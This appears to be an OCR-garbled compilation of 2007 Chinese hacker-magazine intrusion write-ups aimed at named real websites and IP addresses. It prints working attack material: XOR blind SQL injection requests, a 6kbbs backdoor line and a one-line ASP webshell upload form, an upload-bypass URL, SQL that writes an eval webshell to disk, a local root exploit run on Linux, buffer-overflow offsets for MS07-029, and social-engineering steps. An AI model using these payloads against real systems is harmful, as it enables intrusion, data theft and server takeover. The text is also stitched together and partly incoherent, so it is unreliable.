对于 sql 注入来说，用得最多的逻辑运算就是 and、or 了，但是上面的语句中很明显已经被前面的函数给过滤了。由于是一个字符串，而且注意 select 这个 sql 注入必备的词也都被过滤了。那么要想进行注入，必须用到 xor。xor 的意义是异或，也就是相同为假，不同为真。

## 四 漏洞分析

在 member.asp 中定义并调用了如下的函数：

# 《关于黑客手册 2007.12 → [新闻]编练习》

由于缓冲区溢出、mem_id 与 mem_Name 的处理逻辑以及 asc(mid(mem_Password,1,1)) 的比较方式，构成了 SQL 语句拼接与判断流程。通过该流程可推断当条件满足时返回正确结果，否则返回错误信息。

## 五 猜测利用

首先选取一个用户名，我这里注册 nohack，密码为 000000。注册成功登录修改密码并抓包，最好是修改密码的时候，新密码跟原密码一样，否则提交数据包时就得提交一次，下面需要收包等数据，如图2。


把抓的数据包保存，并且修改数据包的内容和你改的内容的长度，如下所示（也就是部分包的值）。

```
POST /pjblog/member.asp HTTP/1.1
Accept: */*
Referer: http://127.0.0.1/pjblog/member.asp?action=edit
Accept-Language: zh-cn
Content-Type: application/x-www-form-urlencoded
UA-CPU: x86
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.2; .NET CLR 1.1.4322)
Host: 127.0.0.1
Content-Length: 230
Connection: Keep-Alive
Cache-Control: no-cache
Cookie: PJBlog2Setting=VViewerNormal; ...
UID=2%20xor%20mem_id=1%20and%20asc(mid(mem_Password,1,1))%0%20xor%20=1&action=edit&password=000000&confirm=password&uid=000000&password2=000000&email=&hidden=&homepage=&ddaction=save&submit2=%E4%BF%AE%E6%94%B9%E6%88%90%E5%8A%9F
```

在上面的函数中取得了 UID 并用 CheckStr() 后将 UID 放进了 sql 查询语句中。程序把普通用户和管理员的用户名和密码都存在 blog_Member 里，管理员的 mem_id=1，我们在正常的情况下查询管理员的信息时可用如下 SQL：

```sql
select * from blog_Member where mem_id=1 and mem_Name=''
```

而我们这里通过构造 sql 语句来构造越权查询管理员用户名和密码的 sql 语句，而不影响原本 sql 语句的正确性。


图1 xor 进行注入的真值表

把前面的 select 查询可构造成如下形式：

```sql
select top 1 * from blog_Member where mem_id=2 xor mem_id=1 and asc(mid(mem_Password,1,1))>0 xor 1=1 and mem_Name='xiaot'
```

在实际的过程中学习到，测试的对象为空时，说明 sql 语句就能正常的查询，这就说明可能存在注入点。

从上面的流程很容易知道，当猜得 mem_id=1 and asc(mid(mem_Password,1,1))>N 正确的时候，返回的是 sql 语句错误的信息；当猜得 mem_id=1 and asc(mid(mem_Password,1,1))>N 错误的时候，返回的是 sql 语句正确的信息。

# 分析 6kbbs 7.1 发现的后门

本文将可以学习：

一种找回木马漏洞的基本方法

今天我说的这个漏洞个人感觉它比较典型，我过几天想再写一个台湾网站，发现他的论坛 6kbbs7.1 的，所以就去 6kbbs 的官方论坛下载它的源代码，如图 1 所示。


接下来看很多人都爬了，就是用 dreamweaver 来批量搜索 request。为了照顾比我这个菜鸟还菜的鸟，还是把图贴出来吧，如图 2 所示。


在查找里输入 request，在查找范围里选择“文件夹”，在后面的路径名里就选择下载的源代码的路径了。然后查找全部就 ok 了，如图 3 所示。看到前面 admin 之类的，那么我就从后面开始找漏洞了。搜到最后可就不得了了，如图 4 所示。


大家看到这个图，就明白了吧。说句实话，这个人作的后门也太明显了。在 skin/vista/const.asp 这个文件里就这么一句话 `<%execute request("value")%>`。接下来我们就开始利用吧，`<%execute request("value")%>`。接下来我们就把 Powered By：6kbbs V 7.1(去掉这句，可能由于是最新的，所以用的人比较少(没有多少人因为此遗留，依赖 to) 我就先把 www/http://www.7futauto.cn/bbs/ 前面站点去掉，直接在后面加上 /skin/vista/const.asp，看到了吧“类型不匹配：execute”，如图 5 所示。


用 nc 提交，执行命令 nc 127.0.0.1 80 <1.txt>1.html，打开 1.html 如图 3，提示错误信息，用户名与密码错误。


再次修改数据包，把 asc(mid(mem_Password,1,1)) 修改大于 100，修改后如下：

```
`Mid2?0x0x?e?mem_id=1&cmd=Password,1,1))>100 xor 1=1返回结果`
```

注意修改数据长度 Content-Length 的值，增加了两个字符，所以修改为 32。得到结果显示用户名修改成功，修改密码已经修改，由于你更改了密码所以以前重新登录，如图 4 所示。这就验证了刚刚我们分析的结果，猜解正确的时候，返回的是错误信息，猜解错误的时候，返回的正确情况。

## 六 总结

当我们抓到数据包的时候，直接提交的话是提示不存在此用户名，这是由于 common/checkuser.asp 中的 checkCookies 函数验证 cookies 的时候，传取到的用户名为空，游客请注意！感觉这篇文章分享分析起来太老套，不如我自己研究的如何在某个网站上进行一番，想着也许正如上面所分析的那样。测试的时候就会得出自己心里的答案了。波语说了，钓了美女在群中上自可见，一直在忙着，客人来到一旁去了。

# 我对**红色黑客联盟**的一次检测

那么我们就用蓝屏大叔一句话木马来连接吧。首先，我们得改下蓝屏大叔一句话。代码如下：

```html
<form action="http://127.0.0.1/1.asp" method=post>
<textarea name="a" cols=120 rows=10 width=45><!--这里有俩超-->
<?
$ip=$_server['remote_addr'];
$fp=fopen("php://...","a");
IP_Open
IP_Type=2
IP_CharSet="gb2312"
IP_writeText=request("p")
IP_SaveToFile=server.mappath("conn.asp");
IP_Close
set IP=nothing
response.redirect "conn.asp"
?>
</textarea><br>
<input type=submit value="提取">
```

在这里我们就把上边代码的 http://127.0.0.1/1.asp 改为 http://www.****ratuo.com/bbs/skin/vista/const.asp，把第二行 name=后的 1 改成 value，直接上传木马就行。如图 6，图 7。

总结：其实没什么总结的，文章很简单，就是用到一句话木马来上传大马。但是做为一个传播比较广泛的论坛出现后，是管理层的问题还是其他的问题，这就不得而知了。反正希望看完这篇文章，用这款7.1的朋友们把那个 const.asp 删掉吧。有什么问题看到 NoHack 论坛去找我，也可以到 http://www.netsnow.net 论坛当论坛来找我。

编辑点评：软件件文章的时代，去下载了一份源码，连后门还是存在的。不过做为一个应用范围很广也很火爆的系统，也许不会是作者本身的，无法于代码有着这些带有开放性的软件。


从本文你可以学到：

对网上流行的一些常见入侵方式进行一次温习

天天在网上泡论坛，连来连去就碰到了红色黑客联盟，于是乎就抱着检测一下他们的网站安全性，这网站基本就是一个由论坛的论坛，能作里也没有什么ODAY，直接来到“http://www.51snap.com”这里

旁注查查域名。我向大家推荐一下，这个网站不但能查出ＩＰ、绑定多个个体名，而且还能查出其域名注册时候的电话、DNS服务等等，如图1所示。

红色黑客联盟IP为219.232.235.203，查了一下惊了7个域名，一个一个的看吧。当看到www.yrpt.com的时候在后台加了1admin出现了如图2的状态，说明下面还有文章，直接登录login.asp出现后竟然用默认密码admin再试进去，可是后台却不还原的历史。这就简单。不过以前有人来了，到处搞的是一句话木马，如图3，俺很郁闷，数据库类型到不知道这么多一句话木呀，黄非先来的兄弟已经知晓。

道数数据库是 ASP 的了，而且已经知道路径了？我把这个一个个的那个都检测，俺他什么都没发现，哪就检测到8吧，中出 cnSuperScan3.0 来扫了一下全 C 段的21端口，主要是找 SUB 服务器，将来好接权，然后还装 C A I N 嘛它密码。如图4所得到一个 6.0 的 219.232.235.125，竟争已打开吧。

我直接把IP放在 “http://www.51snap.com”查一下， 书侧了20个域名，如图5所示。我抓了这14个漏洞吧，如果大家有些一个个暴漏也没有的，你们和我，看到www.guangyuanmiye.com后台，直接用 'or'='or' 进去了，不过在后台拆解了半天，也没能得到 WEB SHELL，不过后台编辑器很像 eWebEditor 哟，如图6所示。

|    |    |
|---|---|
| 442 | ENGNACK |

# 【西线无战事】— 2007.12

如果有这东西就好了，加上默认的数据库和后台地址没有什么反应。再看看还有什么别的路径，拿出了 wscan 开始扫描，扫出了一个 readme.txt，如图 7 所示。这个一般是说明文件，先打开看看，果然，是说明性文件，用的是“雷猫蚁网安管理系统 V1.0”，如图 8 所示，直接百度一下，利用方法就出来了，黑客写了一篇关于上传漏洞的文章，梦卜太可爱了，构造如下 URL：

`http://www.guangyuanmiye.com/admin/uploadPic.asp?actionType=mod&picName=test.asp`，会弹出上传文件页面，然后在上传文件里面将要传的图片格式的 ASP 木马就可以在 uppic 目录下上传文件名为 test.asp 的文件，我这里上传了一个一句话的小马，最后成功得了一个 WEBSHELL，如图 9 所示。


接下来上转 SQL ASP 提权成功，拿到了 3389 权限，不过进去之后有两个问题让我差点吐血，一个是有 ARP 防火墙，更可气的是这个和 219.232.235.203 不在一个网关的，整个 C 段两个网关，这个只到 128，如图 10 所示。白忙活了，不过能不能放弃，直接在刚才扫出的 21 端口里再找，这次幸运了，找了 219.232.235.205，这应该没 OK 了，把这个 IP 全到我的网站去看，不还很郁闷的想起一个域名。


拿出 IP 皮，在上面打上 google.com，在 google.com 里面打上 asp?= site:leatherofworld.com，选项设置 100，开始检测，还真跑出了几个注册人，而且这还是 DB_OWNER 权限，不知问题，明显与平常很多部门不同，表名输出出来也没有什么价值，而且在看到密码的时候我发现网站 11 无奈之下又拿出 wscan 探测一下目录，这次找到了 cWebEditor，直接用默认密码登录，提示就下载，成功了下载，如图 12 所示。


接下来就想打开数据库，去 MD5 网站破解，看到了友友在线就把他代码记了，登录后台如图 13 所示，关于这个 WEBSHELL 也不作解释了，我直接在 WEBSHELL 也去了 SU，呵呵，开始提权，如图 14 所示。接下来开始进 219.232.235.205，成功进去了，现在有两个思路，一个是抓哈希，破解出来，有可能 203 和 205 还是同一个密码，可是当我花几小时破解完哈希后却发现密码也还不对，如图 15 所示。


接下来就是突破 ARP 防火墙，看到有位好友在线，就不说出他偶尔了，直接向下，他给我一个 EST 网卡，上面似乎被改写成的一个工具，原理就是用 arp 协议抢占与网关 arp 复制 mac 地址的速度，发包工具将被改写的 ip 和 mac 不断的告诉告诉的网关，让网关不停的应答，然后关闭把他们当成欺骗的机器了。

# HackBase：渗透_狗尾续貂

一手失知

应当从本文看到：作者的学习态度

## 一、排查摸底

从录像中看作者的姿态，服务器 IP 地址为 218.28.195.133，服务器为网内系统 Windows 2000 操作系统。先用附加本身 http://www.domaintools.com/reverse-ip、http://www.114best.com/ip 及一个本站服务器 IP 段的地址，观察到 http://www.xcjq.cn/、www.xcym.com 一点点站点（与实际进入服务器的界面站点是有友站的），打开网页内此人地址 site 为：http://www.xcjq.cn；可以在页面输入：http://www.xcym.com/new/type.asp?typeid=20，进入后台进行提交。之后得到了一串用户名和密码，这些密钥的可用性未知，后面如果有必要再进行验证。

## 二、绕道前行

看来只有从前洲汽车玻璃厂的网站入手了。花了它点时间，从百度上找到这个站点，体力还是挺紧的。用终端可找到后台 http://www.xczjq.cn/news/admin/login.asp，进入后台后，输入后台登录系统，用户名：admin，密码：b323c7bd5106f4cc（730419），有三个后台，进入第一个新闻及管理页面（以后的经验来讲，进入网站的作用好像都是公布类的页面），由于系统中可能有授权、用户或栏目权限，进行数据输入、操作时，要先进入首页，新建栏目。先在后台新增一个栏目，添加文章菜单 -> 选择栏目、大小类，文字中添加一个标题，再在“->”后选择大小类，执行 http://www.xczjq.cn/news/admin/createw.asp，更新首页链接 ASP。用一句话服务器建 WEBSHELL（如图 2、图 3、图 4）。

【文字里别到的工具：Cain、superscan、ncmapb.exe、wscan.exe 已收录在本期光盘】

编辑点评：大量的信息收集、入侵知识的不折不扣，不停的细心和耐心，这些都是侵入性检测必要的。有些深深吸取一口气，或什么时间失去了对它的思考？

## 三、直面目标

WEBSHELL 里执行（这个服务器直接执行命令，wscript、shell 等上传和对应的 cmd.exe） C:\Recycled\fport 3389 自己的外网 IP 1800；4、连接成功后，在终端连接器输入自己的外网 IP，入库的用户名及密码，顺利进入服务器（如图 9、图 10、图 11）。

总结：说实在，这一切按正常的也是比较难人的，本人老希望来一个，都是利用现有条件，没什么新技术。没有知道管理员的习惯，其实不删除了出去，大家也去尝试自己的技术，绝对反感人家控制 MS07-004 的发送 TE 的网马，这会秀得有些点不能进。

【文章里用到的工具有 fport.exe、FportClient.exe、CooKis Browser.exe，收录在本期光盘】

编辑点评：看了别人的教程，再来一次入侵习惯，是一个不错的学习方法。针对作者用 fport.exe 把 FportClient 3389 端口转发，我有必要说一下，据我实际经验，用 nrtran 转发 3389、5631 比较好用，但是是转发 admin 与 vnc 仅负载 port.exe 最好用，尤其是好的经验之谈了，没有必要多的棘手比较。

# MS07-029 分析报告

## 一、漏洞背景

MS07-029 是 Windows DNS 服务器 RPC 接口在处理畸形的请求数据时导致的缓冲区溢出漏洞。这个漏洞只是针对 Windows 服务器平台，如 Windows 2000 Server、Windows 2003 Server，当服务器开启 DNS 服务器时，系统就会受到影响。

先简单了解一下 RPC 协议：RPC 采用 C/S 模式，请求程序就是一个客户端，而服务提供程序是一个服务器。首先，调用过程发送一个有进程参数的调用信息到服务器，后端等待应答信息。在服务器端，进程保持睡眠状态直到调用信息到达为止。当一个调用信息到达，服务器就获取详细的参数，计算结果，发送答复信息，然后等待下一个调用信息。最后，客户端调用过程接收答复信息，然后结束，服务器执行继续进程。

初步了解该漏洞的本质，大家都知道 DNS 服务开放的端口是 53 端口，而这个漏洞并非出现在主线程创建的 53 监听端口，问题端口出现在 TCP 的 1032 端口（由 DNS 服务创建），这个端口是服务器用来管理使用的。

问题的原因在被使用的 RPC 匿名访问方式，这种默认的方式可以接受来自网络的 TCP 请求，如果存在大量恶心构造的请求数据，使 DNS 服务器自身的请求不受到影响，可能导致拒绝服务攻击。

## 二、漏洞分析与调试

调试环境：

- 服务器：Windows 2000 Server SP1 CHN
- 调试机：Windows 2000 Professional SP4 CHN
- 调试工具：Windbg

在服务器安装 DNS 服务，查看 DNS 所使用的端口，有熟知的端口号 UDP 和 TCP 的 53 端口，还有一个被 DNS 使用的 TCP 端口 1032，这个端口是不固定的，每次开启服务都不相同，所以在利用这个漏洞的时候需要扫描服务器的端口。经过多次测试，每次开启服务，端口都会递增。就这个存在漏洞的问题，我们尝试发起连接。

建立 TCP 连接后，发送依照构造的 RPC 请求数据包，获得应答后，发送畸形的数据包，触发漏洞，下面我们一步一步揭示 MS07-029 缺陷的原因。

根据漏洞公告，此漏洞是在 RPC 接口处理数据时发生错误，所以尝试在 RPCRT4.dll 中接受数据的函数上设置断点：

bp Rpcrt4!_RpcTransConnectionAllocatePacket

继续运行，看到 windbg 提示 debuggee is running...，提示说明程序正在运行中，此时我们不能输入命令，需再次使用程序中断下来，使用 CTRL+Break。

F5 使程序继续，直到数据完全写入服务器的缓冲区中，在内存中搜索我们的数据：

在 0x0008cef4 处发现发送的数据，进一步的想法便是如果 DNS 服务器接收到的数据进行处理，必然会在此处获得输入的数据，所以在此处的内存位置起来，继续让程序运行起来，程序再次中断下来：

查看此时的堆栈：

根据堆栈的情况，我们可大体了解服务的程序流程：

1. 进行 RPC 连接，RPCRT4!RpcBindingSetOption
2. 进行传输连接 RPCRT4!I_RpcTransConnectionAllocatePacket
3. 获得 RPC 传输的数据 RPCRT4!I_RpcGetBufferWithObject

具体的函数含义参见 wine API rpcrt4.dll，有详细的 RPC API 函数资料。有部分代码，参见如下：//source.winehq.org/WineAPI/rpcrt4.html

可以看出，此时的堆栈已经到 DNS 的主服务程序的流程上来，根据堆栈情况，我们回到函数调用时参数的传递，运行如下：

我们注意到，程序在堆栈中只预留了 IDOH 固定的大小缓冲区，如果我们的构造的数据可以绕过此界限，很有可能覆盖了函数的返回地址。F11 跟进调用函数中，我们逐步分析代码的含义，函数代码如下：

- 配局部变量的方法
- 冲击指令
- 界分配成功，继续跳

因为在处理数据时，如果超出了 buffer 的范围，可能会导致覆盖返回地址，因此在此处需要继续验证程序运作起来。

## 三、漏洞利用

根据对代码的逆向分析，简单讨论一下利用的方法：

- 1. 由于程序在进行字符串拷贝的过程中，要对字符串进行过滤，使用 0x5C、0x5D、`'` 字符来绕过检查，同样我们可以使用大量的 0x5C 来达到覆盖缓冲区的目的，这也是程序出现缓冲区溢出的主要原因。例如可以使用 `\x5C\x12\x5C\x45\x5C\x5C\x5C\x45\x5C\x45\x5C\x7f` 的字符串来绕过对字符 `\x12\x45\x7f` 写入地址中的目的。
- 2. 在进行字符串拷贝的过程中，程序只传递的字符串开辟了 1D0H 的缓冲区，并作了 1D0H+2=2SECH，所以可以通过精心计算溢出地址的位置、数据包的头大小，所以偏移位置是 4CH + 1D0H+2=3ECH。
- 3. 数据包需要可变的大小，如果包的大小不合适，在解析数据包的时候，会出现数据边界错误或者无法通过程序出错的流程。
- 4. 在 JMP ESP 后，EDX 指向堆中我们 SHELLCODE 前几个字节，所以最终是在 JMP ESP 地址上展开 `\x42\x42..`，对应的指令为 `inc edx`，然后 JMP EDX。

## 四、总结

- 1. 通过 DNS RPC 接口达到有漏洞的函数，执行流程如下：

# 跨站、注入、老站网页软件天下

— 我过生日，没有想到我第一次接触成爱了（呃幸呢），今年生日过的格外开心，《黑手》送了一次搜罗我的礼物给我，编者对我的肯定也极大的鼓励我努力地学习技术！最近老实评估的话，对我们要求很是严格，忙的要死，一次做到那儿几乎卡了许多页都是关于 ASP 代码、十用户、中文有才有空来写文章，不说这些了。进入主题，这次给我的代码是，关于天下企业网站管理系统 V2007。

## 一、初步分析

把代码下载回来，搭建好 ASP 平台后开始测试！看起来还不错（如图 1），就是不知道安全么会怎样！

1、后台竟有用什么的有用！其中留有文件 include file="admin.asp" 调用 admin.asp，admin.asp 里面的字符变量也过滤了单引号，不用经典的 'or' 'or' 登录也不能进入了！

## 二、跨站

1、前台跨站，第一步当然是找有输入的地方——用户注册 & 客户留言。用户注册 UserRegPost.asp 文件可以看出 username 和 password 有被过滤了一定，但是对 Question 和其它变量竟然只是防君子不防小人，可以跨站但得做个陷下。我们来看代码分值很大点的，客户留言 FeedbackSave.asp 文件也可以读到，利用此旁边代码。对此原来不能站了。具体的代码是：

## 三、注入进入后台

我习惯先用工具扫描一下，免得浪费时间，但却没有检测到注入点（如图 6），其实好像代码写得不错。先看了下调用最多的文件 shownews.asp，虽然实对可注进行过滤但是调用 inc/Check_Sql.asp，随后又看了下 Check_Sql.asp，代码如下：

```asp
<%
Err_Message = ""
On Error Resume Next
if request.QueryString("") then
  Ck_badword = split(lcase(Request.QueryString), "...")
  FOR EACH Ckey_N IN Request.QueryString
    if instr(lcase(request.QueryString(Ckey_N)), Ck_badword(i))<>0 Then
      Select Case Err_Message
        Case "1"
          Response.Write "<Script Language='JavaScript'>alert('参数错误')..."
        Case "2"
          Response.Write "<Script Language='JavaScript'>location.href='...'"
      End Select
    end if
  Next
end if
%>
```

2、整个逻辑过程思路很简单，阅读汇编代码也没有很大困难，在熟悉工具的使用上花费了很多的时间，对工具的熟悉程度会影响工作效率。在今后的学习中要把多种工具结合起来使用，可以达到更好的调试效果。

3、通过研究 DNS 以及 RPC 调用端口的匿名认证小心，在使用固定长度缓冲区时应该注意边界长度的检查。对 DNS、RPC 漏洞的挖掘就到此为止，文中有不足之处欢迎大家和我交流。

## 【西铁无敌群】— 2007·12｜注安宝典 黑客手册

# 用社会工程学
y害请枉现网

## 一、前言

前一段时间仔细研究了下大神华尔克尼的《软骗的艺术》，垂涎于其将尼克眼巧妙奴成为社会工程学技术，我也想参考机会实践了。我在个别局子里拷贝了一些分析实验的精巧程序，和着子业里面的过程序，我在心里说了，闲着也是无聊，帮我阅读吗？

## 二、初步分析

先命由 X-SCAN 扫描一下服务器的基本信息。服务器的系统是 Windows 2003 的，开放了 7、9、13、19、21、25、80、110、3306、3389 端口（如图 1 所示）。试了几个 EXP，都是成功了。看来从盗出手中的这条路是走死了。马上开始从脚本漏洞下手，发现该网站文章系统用的 ASP+SQL 栈，并且有个 Discuz! 6.0.0 的论坛。我估计这论坛的结构，安全性肯定有问题，顺时我信心大增。

## 三、后台分析

1、在网站 URL 里直接添加 admin 进入后台来看着“备份数据库”以 SHELL 就绪这样的操作（如图 8），还要 580 块大洋，太可惜，只好想其它办法：

2、当然我已知数据库路径，而且是 ASP 的（默认是 Databases\#wrxtcn2007.asp），在刚开始的地方写入一句话，将 ASP 代码放成 /23，然后就能找到可以得到 webshell 了，不过实际中却不防守，因为管理码一般都掺杂数据绑定，

3、在网站配置改成将上传路径改为 UploadFiles.asp 失败（我的是 XP，系统 xp 2003 方式被默认）

4、添加 cer 等格式失败。其实有更简单的方法：admin/

试了几个 Discuz! 6.0.0 的漏洞，没收获，手里又查 Discuz! 0 day，都会改 | www****.com/company/listalljob.asp?selectedid=16738，这样的地址了；1=1 和 1=2，返回不同的内容，如图 2 和 3 所示。嘿嘿，看着有点像原先，打开 http://www****.com/company/listalljob.asp?selectedid=16738 and user()>0;-- 很不幸，过滤过，超过 1=1 等一系列特殊字符（如图 4 所示）。接着又改成了 XSS 版本而已，不行，又过不了，直接从支出的一些全程这个网站的程序数据不失，貌似是很多少收款。

## 四、后台 webshell

1、在网站 URL 上直接添加 admin 进入后台来查看“备份数据库”以“shell”就绪这样的操作（如图 8），还要 580 块大洋，太可惜，只好想其它办法：

2、当然我已知数据库路径，而且是 ASP 的（默认是 Databases\#wrxtcn2007.asp），在刚开始的地方写入一句话，将 ASP 代码放成 /23，然后就能找到可以得到 webshell 了，不过实际中却不防守，因为管理码一般都会掺杂数据绑定，

3、在网站配置改成将上传路径改成 UploadFiles.asp 失败（我的是 XP，系统 xp 2003 方式被默认）

4、添加 cer 等格式失败。其实有更简单的方法：admin/

## 五、后采

我分析完以后去了南方网站上看了看，划定黑名单很正常不？不过用户上了这个系统的人很多，也还有一部分网上做外包的人。正如前文所说，这是一本很奇妙的社会工程学技术文档，还是有所收获的。最后在 2007 年 9 月的“韩非”的《一桥》截图中找到了一个很像的程序代码，具体也不明白，不过很像是把这个站点的表单和中文乱码组成的网页自动识别为不正常，截图就留着了。

编辑点评：

只是给大家分享了一种比较灵活的网站方法而已。

# 三、另辟蹊径

N个小时之后，我放弃了从服务器下手的这条路，想用社会工程学手攻破网站。运用社会工程学之前，先调查了些这部网站的情况，知己知彼才能百战不殆，得知如下信息：1. 运营该网站的公司的职员，技术都不怎么地，只有一个高手近期还在外地，并且与经理有矛盾，准备跳槽；2. 经理也是个20多岁的年轻人，不懂技术；3. 该公司前几天在某大学举办了个“西安大学生就业论坛”，影响还蛮大的。好了，开始行动。我的同学上了该经理的QQ，告诉他，我是某大学的学生，参加了他们组织的那个论坛活动，你们网站有漏洞，请赶快修补吧。然后，把之前发的那个会后给他的图片给他看，并利用电脑的大小字留下信息，他马上就蒙了，还以为我是中间的高手。哈哈，成了吧。

三天后，我们又他通过补救。也回各答说起，技术和他问无济，还是要攻击我的网站。咱先动手，浏览器，我在学校的QQ群，小张帮忙用QQ联系上了，告诉我，让我找他做网络安全，一个月给我300块钱，就帮我出个公司电脑门牌号和管理员账户，然后让我先把他那公司的漏洞全部补上（他叫我先用的打字！对啊！）他删整这两个字符手有头发？我的英语太差了，再加上他让我管理人的密码登录3389，他还真给我进入了。


# 四、写在最后

本文没有什么技术含量，备有很大一部分运气和幸运的成分。原本安全性挺好的一家公司，仅仅因为网站中的一个人的安全意识竟然没有起初。可见，网络安全是个整体，网站内运维人员的安全意识向来是需要提高的，不对此有警惕，太难了是半斤，太难是个刀里各不平衡。总而言之，我们如何努力，都无法攻破的干货是之从人为本。

> 编辑点评：炒哥的手段对我来说，好像从来没用到过。因为第一我本人愿学员，与我性格不符合，第二我不想否认真心的师同学们，把网络网站的设计也好写一点。不过不是所有干外产工到互联网去，当然这次是很幸运的，不对我会很快把这个过程中对网页的异常现象和读者所犯的类似问题做了补充，成功的成功的意义在于突破。也希望文中的这个过程打破别那么紧张了，所以我还是建议大家多学习，虽然特别精彩的分析。

# 云逆哈顿（一次LINUX提权）

从本文你可以温习php的基础进入知识，linux提权的一般步骤。我在哈佛大学上找到一个PHP注入点，咳活就不少运了，and 1=1，and 1=2 是有基础的朋友都知的，如图1所示。接着就是很长的猜表和字段值，但是16位的MD5想当难破，如图2所示。接下来怎么办呢？当然是找回load_file()的文件，试下load_file(/etc/passwd)，记得加上 /etc/passwd，得到1/16进制数，如图3所示。看来看去，试有可能写，这里我试着一个技巧，就是load_file()和substring两个函数的理解，substring函数就是从文件的指定位置返回指定字符，很多地方写的时候不成功是因为哪个目录是不可能写的，我们可以用上游函数或者说和写，就是找截取信息。比如phpmyadmin,ftp,mysql等配置文件，用法是substring(load_file(要读取的文件), 100(想要的位置), 1000(返回的字符数))，我们开始尝试。我用数字大字吧。经过很长的查找，终于找到了这个服务器一个其他网站的可写，于是写马开始了，然后就用一句话连接，这些基础的东西我就不一一说，因为这些说明数学最大量的字段数及每项大写的智商，实在不会的我也没办法（注意 into 或item 数中写字语与一二字段表形式一样，系统内容不一话说。下面的由于涉及到敏感问题，某些重要的东西我稍微做了下处理。成功拿到Shell就继续想法去提权了，很多朋友对windows系统有很多小绝对权限，但是一遇见linux就懵了。其实linux目前除了内核这两点就是起来了，没别的办法。


# 利用 BBSXP 6.0 SQL 跨服务器的入侵

接下来传个国外马上去反弹。因为发现这个马没反弹功能，那时有时间得帮能不能写个反弹马出来，毕竟能有力有源，如图6所示。

然后去找个相对的本地登陆地址，可以到 http://packetstormsecurity.nl/、http://www.web-hack.ru/、http://www.milw0rm.com/ 等网站去找，我已经找到了，现在开始吧！我们先用命令 cat > 加上要写出的文件名创建文件，如图7所示（注意为文本标记）。

然后就敲出站代码或者直接在 SHELL 上直接编辑，命令 gcc -o krad2 krad2.c 生成一个编译成功的文件。注意有时候要用 chmod 命令改权限，如图8所示。

这里注意的是，如果没生成 krad2 的话，说明文件有错误，注意看报错信息，涉及到一些 C 语言的知识，学过 C 语言的同学应该能轻松，很多大牛写的这些工具比较写得简单得也有很多都不


知道的人利用，所以还是要多多学习。现在我们来运行命令 ./krad2，等了下点了权限，然后屏幕出现了一行字，还是给出的说明，然后执行下面命令看一下，终于成功了，如图9所示。

此文章多次修改未全，其实我真正做的是能跨站出于一个大的代码，所以以要努力学习 Linux-shellcode 这次与文章中提到的 krad2.c 已被本文的作者完全改正并已由我的机器上上传了。


编辑点评：这篇文章比较多未付含，其实我真正的目的就是借助现有程序来构造一个通用的跨站攻击程序，而不是讨论一个做过的示例。文中关于 ASP、BBSXP、Linux shellcode 等内容具有一定参考价值。

# 利用 BBSXP 6.0 SQL 跨服务器的入侵

从本文你可以学到：利用 BBSXP 6.0 SQL 跨服务器

死党执子之手过来的 http://www.ixpub.net/zhuanti/safe/aq/、IXPUB.Net 网络安全攻防大集活动，想让我这个小菜长长眼。因为是组织方提供的虚拟站，不能真的去攻；人家也是为了交流、展示技术而已。人走在自我之外，自知能力有极限，水平不高，没敢靠打乱。而且如果组织的攻防活动，网站的安全性相差一定不是。目标站点 http://59.151.29.110/，系统下打了已知一起漏洞……先用 InetelrIampter 工具和自己修改的


整合后的版本，猜想组织者可能将网站整个目录均设置为只读属性，让大木入侵后修改的网站就差事推走。重新组织只路如下：入侵目标服务器用 C 设另一个服务器，再远程测目标服务器来对这个马的目的，先用工具 superscan3.0 扫描一下，如图5、图6。从 80 端口的 IIS6.0 侧应其程序看，目标服务器应该是 windows 2003 系统，支持 ASP.NET、1025、3389 终端服务、FTP 服务，和目前常见的 windows 2000 系统，对外开放 MSSQL 端口 1433，支持 CANYWHERE-5631，FTP 服务——21——21114。网站与其小子旁住所，发现旁注服务器部分为单一网站，检查到主站开放了由 BBSXP 6.0 SQL 版绝社 http://59.151.29.100/bbsxp/。大家可以通过百度到此版本的相关漏洞信息，具体内容就不多作介绍了。不过从理论上推送仍然以使用倒是有一段距离。这里通过后，注册用户能过邮箱管理页面，没办法，我们用社会工程学，通过注册用户这个检测，注册个用户由管理员在查看，没办法，但可以用社会工程学。点击进入后台在“管理用户信息管理数据管理”高级管理中，地址如下： http://59.151.29.100/bbsxp/ShowForum.asp?ForumID=9&checkbox=1，复制网页的源代码。

```html
<input type="radio" value="BatchSpecialTopic" name="menu"><select name="SpecialTopic">
<option value="">请选择</option>
<option value="...">...</option>
```

修改后代码（增加一个提交框）：

```html
<input type="radio" value="BatchSpecialTopic" name="menu">
<input name="SpecialTopic" type="text" size="80">
```

# 非安全P黑客手册 2007.12 ->【西线无战事】

再把代码中的 `<form method="POST" action="ForumManage.asp">` 改成 `<form method="POST" action="http://59.151.29.100/bbsxp/ForumManage.asp">`，修改 POST 提交地址，保存为 2.htm。收集管理员用户名为 azkaban，打开 2.htm 后写入如下注入语句：

```sql
update BBSXP_Users set UserName='UserName',UserName='azkaban' where UserName='azkaban';
//...（略）
```


后台管理员密码 MD5 不能破解，再次进行注入：修改管理员后台密码。恢复管理员后台密码。进入 SQL 反后门（上传设置：1、将选择上传组件改为 ADODB.Stream；2、将附件保存形式改为盘；3、允许上传的附件类型为自己所需的类型），测试 PHP、ASP 以及文件均不能被解释，ASP 加入乱码功能，如图 10。


Sql 反无备份，自构造一个 http://www.coolmark.cn/bbsxp/Admin_FSO.asp?menu=bak 失败了。在网上找了一下资料。

```sql
update [BBSXP_SiteSettings] set UpFileTypes='|asp|';char(0)+...;
```

加 asp，a 木文件，利用空格上传 asp 文件，上传 ASP 图片小马，抓包，修改发包中的图片为 *.asp，修改发包字节长度，C32，修改文件大小为 00，NC 提交 nc www.coolmark.cn 80 < txt，可惜失败了。换个思路，上传 stream，在第一个字上已知被利用上传框的 BBSXP 6.0 access 结构，conn.asp 为三级目录，构造 1.htm 内容如下：

交后得到如图 11 内容。从后排得到的信息知道 1433 对外开放，用数据库管理助手顺利连上，如图 12。然后得到主机环境变量下 `\dragontel\bbsxp\Admin_other.asp`，执行 SQL 操作语句如下：

```sql
create table cmd(str) /*...*/
insert into cmd(str) values ('<%E%val(request(chr(112)))%>')
backup log jvkb to disk='F:\dragontel\bbsxp\4.asp'
drop table cmd
```

然后用一句话服务端连接，参见图 13。终于入侵成功……，但仓促，如何有什么不明白的可以来 www.52cmd.cn 提问，黑色技术，BBS（www.rootkit.com.cn/bbs）新开张，欢迎大家共同交流。

